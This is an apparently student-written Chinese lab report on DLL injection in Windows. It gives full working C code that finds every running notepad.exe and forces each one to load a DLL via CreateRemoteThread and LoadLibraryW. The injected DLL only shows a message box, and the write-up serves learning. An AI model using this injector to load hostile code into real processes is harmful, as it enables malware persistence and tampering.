







# dll注入
## dll注入
DLL注入技术，一般来讲是向一个正在运行的进程插入/注入代码的过程。我们注入的代码以动态链接库（DLL）的形式存在。DLL文件在运行时将按需加载。DLL注入技术可以被正常软件用来添加/扩展其他程序，调试或逆向工程的功能性；该技术也常被恶意软件以多种方式利用。 
## 实验准备
在一个工程中建两个项目：baselib和dll_insert  
**在项目baselib中添加**  
① baselib.h
```bash
#pragma once
int lib_function(char* msg);
```
② baselib.c
```bash
#include <Windows.h>
int intnal_function()
{
	return 0;
}
int WINAPI lib_function(char*);
int WINAPI lib_function(char* msg)
{
	MessageBoxA(0, "msg from base lib cuz lj", msg, MB_OK);
	return 0;
}

BOOL WINAPI DllMain(
	HINSTANCE hinstDLL,  // handle to DLL module
	DWORD fdwReason,     // reason for calling function
	LPVOID lpReserved)   // reserved
{
	// Perform actions based on the reason for calling.
	switch (fdwReason)
	{
	case DLL_PROCESS_ATTACH:
		// Initialize once for each new process.
		// Return FALSE to fail DLL load.
		lib_function("loaded");
		break;

	case DLL_THREAD_ATTACH:
		// Do thread-specific initialization.
		break;

	case DLL_THREAD_DETACH:
		// Do thread-specific cleanup.
		break;

	case DLL_PROCESS_DETACH:
		// Perform any necessary cleanup.
		break;
	}
	return TRUE;  // Successful DLL_PROCESS_ATTACH.
}
```
③ exp.def
```bash
LIBRARY   baselib
EXPORTS
   lib_function
```
-----
**在项目dll_insert中添加**  
① test.c
```bash
#include <stdio.h>
#include <Windows.h>
#include <tlhelp32.h>

DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId);
int main(int argc, char* argv[])
{
	HANDLE hProcessSnap;
	HANDLE hProcess;
	PROCESSENTRY32 pe32;
	DWORD dwPriorityClass;
	// Take a snapshot of all processes in the system.
	hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0); //把所有进程进行快照
	if (hProcessSnap == INVALID_HANDLE_VALUE)
		return(0);

	pe32.dwSize = sizeof(PROCESSENTRY32);
	if (!Process32First(hProcessSnap, &pe32)) //得到第一个进程，将进程信息保存在pe32这个结构体里
	{
		CloseHandle(hProcessSnap);            // clean the snapshot object
		return(0);
	}
	do {
		if (lstrcmp(pe32.szExeFile, TEXT("notepad.exe")) == 0) {
			demoCreateRemoteThreadW(L"C:\\Users\\PC\\Desktop\\Project2\\dllinsert\\baselib.dll", pe32.th32ProcessID);
		}
	} while (Process32Next(hProcessSnap, &pe32));//向下遍历一个进程 还有则返回1，没有进程了则返回0

	CloseHandle(hProcessSnap);
	system("pause");
	return 1;
}

DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
	// Calculate the number of bytes needed for the DLL pathname
	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);
	//Get process handle passing in the process ID
	HANDLE hProcess = OpenProcess(//打开一个已存在的进程对象，并返回进程的句柄
		PROCESS_QUERY_INFORMATION |
		PROCESS_CREATE_THREAD |
		PROCESS_VM_OPERATION |
		PROCESS_VM_WRITE,
		FALSE, dwProcessId);
	if (hProcess == NULL)
	{
		printf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
		return(1);
	}
	// Allocate space in the remote process for the pathname指定进程的虚拟地址空间中保留或开辟一段区域
	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (pszLibFileRemote == NULL)//分配不成功
	{
		printf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
		return(1);
	}
	// Copy the DLL pathname to the remote process address space
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
	//pszLibFile指向要写的数据的指针，这里就是dll的绝对路径
	if (n == 0)
	{
		printf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
		return(1);
	}
	// Get the real address of LoadLibraryW in Kernel32.dll
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	if (pfnThreadRtn == NULL)
	{
		printf(TEXT("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
		return(1);
	}
	// Create a remote thread that calls LoadLibraryW(DLLPathname)
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
	//kernal32的loadlibrary的作用是载入dll，pszlibFileRemote是作为参数传loadlibrary的
	if (hThread == NULL)
	{
		printf(TEXT("[-] Error: Could not create the Remote Thread.\n"));
		return(1);
	}
	else
		printf(TEXT("[+] Success: DLL injected via CreateRemoteThread().\n"));
	// Wait for the remote thread to terminate
	WaitForSingleObject(hThread, INFINITE);
	// Free the remote memory that contained the DLL pathname and close Handles
	if (pszLibFileRemote != NULL)
		VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);
	if (hThread != NULL)
		CloseHandle(hThread);
	if (hProcess != NULL)
		CloseHandle(hProcess);
	return(0);
}
```
## 实验过程
首先由OpenProcess获得要注入进程的句柄，再调用VirtualAllocEx在远程进程中开辟一段内存，长度为strlen(dllname)+1；WriteProcessMemory将Dll的名字写入上述内存中。再由GetProcAddress得到Kernel32函数（在LoadLibraryW中）的实际地址。CreateRemoteThread将LoadLibraryW作为线程函数，参数为Dll的名称，即"baselib.dll"（绝对路径），创建新线程。WaitForSingleObject等待对象句柄返回，而后使用CloseHandle关闭线程句柄。  
#### 待注入dll
```bash
int WINAPI lib_function(char*);
int WINAPI lib_function(char* msg)
{
	MessageBoxA(0, "msg from base lib cuz lj", msg, MB_OK);
	return 0;
}

BOOL WINAPI DllMain(
	HINSTANCE hinstDLL,  // handle to DLL module
	DWORD fdwReason,     // reason for calling function
	LPVOID lpReserved)   // reserved
{
	// Perform actions based on the reason for calling.
	switch (fdwReason)
	{
	case DLL_PROCESS_ATTACH:
		// Initialize once for each new process.
		// Return FALSE to fail DLL load.
		lib_function("loaded");
		break;**
```
dll被加载时可在dllmain中指定要加载的代码。  
#### 运行代码，向笔记本进行dll注入攻击
* 笔记本的PID  
  
* 运行  
```DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)```中传入的两个参数，第一个是baselib.dll的**绝对地址**，第二个是被攻击进程的PID，这一点已经查到。  
    * 对于此处的baselib.dll的生成，实验中使用的是手动编译链接的方式，具体步骤参见上一章。
    * 使用进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid  
    这里需要指出，以下的结果并非我本人运行得到，而是同样的代码在丁同学电脑上的结果。因为我的运行结果是：  
      
    这个输出让人很不知所措，由程序中的输出：  
      
    可知，即使查找失败，输出也不应该只有一个 [ ，于是我在所有这样的输出前打上了断点，之后调试运行，然后我目睹了它只输出一个 [ 并结束的过程。  
    由于不知道具体的原因（和D的代码一样，代码编辑流程一样），我重新编译链接生成了lib文件和重启之后再次尝试，未果。  
* 运行结果  
    * 在程序执行到CreateRemoteThread函数时，弹出MessageBox，符合baselib.dll中函数的应有结果  
      
    * 由Process Explorer工具可以查找到此时baselib.dll确实注入到notepad.exe中了  
      
    打开两个notepad.exe，则同理出现两次注入两个notepad.exe，结果和之前相同  
      
      
    * 注入成功